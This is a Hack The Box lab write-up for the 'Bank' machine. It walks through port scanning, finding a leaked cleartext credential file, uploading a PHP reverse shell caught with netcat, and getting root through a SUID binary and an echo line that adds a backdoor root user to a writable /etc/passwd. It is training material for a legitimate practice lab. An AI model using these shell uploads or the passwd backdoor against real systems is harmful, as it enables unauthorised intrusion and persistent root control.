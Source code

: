 # HTB - Bank

#### Ip: 10.10.10.29
#### Name: Bank
#### Rating: Easy

----------------------------------------------------------------------

![Bank.png](../assets/bank_assets/Bank.png)

### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/HTB/Bank]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.29         
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-20 09:18 CDT
Nmap scan report for 10.10.10.29
Host is up (0.092s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.91 seconds
```

Lets enumerate further by scanning the open ports, but this time use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/HTB/Bank]
└─$ sudo nmap -sC -sV -T4 10.10.10.29 -p 22,53,80       
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-20 09:18 CDT
Nmap scan report for 10.10.10.29
Host is up (0.065s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08eed030d545e459db4d54a8dc5cef15 (DSA)
|   2048 b8e015482d0df0f17333b78164084a91 (RSA)
|   256 a04c94d17b6ea8fd07fe11eb88d51665 (ECDSA)
|_  256 2d794430c8bb5e8f07cf5b72efa16d67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.27 seconds
```

Based on normal HacktheBox naming conventions, lets add bank.htb to the `/etc/hosts` file and see if we can do any type of zone transfer, seeing how DNS is open here.

Ok cool, looks like we got a few entries back from the zone transfer. Lets also add these to `/etc/hosts` before moving on to HTTP.

![dns.png](../assets/bank_assets/dns.png) 

Navigating to just the IP, it looks like we've got just a default landing page for Apache.

![landing.png](../assets/bank_assets/landing.png)

but if we go to bank.htb we are forwarded to bank.htb/login.php where met with a simple login:

![login.png](../assets/bank_assets/login.png)

Cool, now  that we know PHP is being used we can do some directory busting, and make sure to include fuxxing for .php pages as well.

![directory.png](../assets/bank_assets/directory.png)

Note: I had to include the `--filter-status 404` flag because I was getting so many 404 errors, and I just like to use the `-q`  (quiet) flag to bypass any graphics and keep my screenshots more tidy.

Cool, we found some interesting directories. `/balance-transfer` seems especially interesting.

In the `/balance-transfer` directory we find a large number of .acc files:

![bt.png](../assets/bank_assets/bt.png)

We can download these files and they appear to have hashed user information, including credentials:

![dl.png](../assets/bank_assets/dl.png)

Looking at the size of these files they all appear to be somewhere between 580-585, but if we sort them by their size rather than by name, we find one that is considerably smaller:

![size.png](../assets/bank_assets/size.png)

Downloading this file we can see why it is so much smaller than the others. Looks like we've got an Encryption Failed error message, and this user's data was stored in clear-text.

![chris.png](../assets/bank_assets/chris.png)

Great, we can use these credentials to login to the site:

![chris_login.png](../assets/bank_assets/chris_login.png)

### Exploitation

Navigating around the site, we find a File Upload feature in the support page.

![support.png](../assets/bank_assets/support.png)

After having a hard time getting anything to load succesfully, I take a look at the page source and find a super interesting comment left behind:

![htb.png](../assets/bank_assets/htb.png)

Now that's interesting. Because we know the site is using PHP, lets grab a copy of PentestMonkey's php-reverse-shell.php and rename it as shell.htb.

First, we'll need to update the script with our correct IP adress and the port we'll listen on:

![php-rev.png](../assets/bank_assets/php-rev.png)

We can then upload the file:

![success.png](../assets/bank_assets/success.png)

Recalling the `/uploads` directory discovered earlier, we can trigger the shell by navigating to bank.htb/uploads/shell.htb

And catch a shell back as www-data:

```text
┌──(ryan㉿kali)-[~/HTB/Bank]
└─$ nc -lnvp 443                 
listening on [any] 443 ...
connect to [10.10.14.37] from (UNKNOWN) [10.10.10.29] 46908
Linux bank 4.4.0-79-generic #100~14.04.1-Ubuntu SMP Fri May 19 18:37:52 UTC 2017 i686 i686 i686 GNU/Linux
 18:29:18 up 23:07,  0 users,  load average: 0.00, 0.03, 0.59
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
bank
```

After stabilizing the shell with `python3 -c 'import pty;pty.spawn("/bin/bash")'` we can grab the user.txt flag:

![user_flag.png](../assets/bank_assets/user_flag.png)

From here I'll transfer over linpeas for further enumeration of a privilege escalation vector:

![lp_tranfer.png](../assets/bank_assets/lp_transfer.png)

### Privilege Escalation #1

Linpeas finds `/var/htb/bin/emergency` which in an unkown SUID binary (these are almost always worth investigating..)

![suid.png](../assets/bank_assets/suid.png)

Doing just a little more recon on the file, I see it is owned by root and I can execute it. Now I can simply run it and instantly drop into a root shell:

```text
www-data@bank:/tmp$ file /var/htb/bin/emergency
/var/htb/bin/emergency: setuid ELF 32-bit LSB  shared object, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=1fff1896e5f8db5be4db7b7ebab6ee176129b399, stripped
www-data@bank:/tmp$ ls -la /var/htb/bin/emergency
-rwsr-xr-x 1 root root 112204 Jun 14  2017 /var/htb/bin/emergency
www-data@bank:/tmp$ cd /var/htb/bin
www-data@bank:/var/htb/bin$ ls
emergency
www-data@bank:/var/htb/bin$ ./emergency
# whoami
root
# hostname
bank
```

From here I can grab the root.txt flag:

![root_flag.png](../assets/bank_assets/root_flag.png)

### Privilege Escalation #2

Linpeas also finds that the `/etc/passwd` file is writable. This lets us essentially give ourselves the keys to the kingdom! Lets add user root2 with root permissions:

![passwd_write.png](../assets/bank_assets/passwd_write.png)

```text
www-data@bank:/var/htb/bin$ openssl passwd password123
Warning: truncating password to 8 characters
uE5rNVxNCU7r2
< echo "root2:uE5rNVxNCU7r2:0:0:root:/root:/bin/bash" >> /etc/passwd          
www-data@bank:/var/htb/bin$ su root2
Password: 
root@bank:/var/htb/bin# whoami
root
root@bank:/var/htb/bin# hostname
bank
```
And that's that! Thanks for following along!

-Ryan

---------------------------------------------

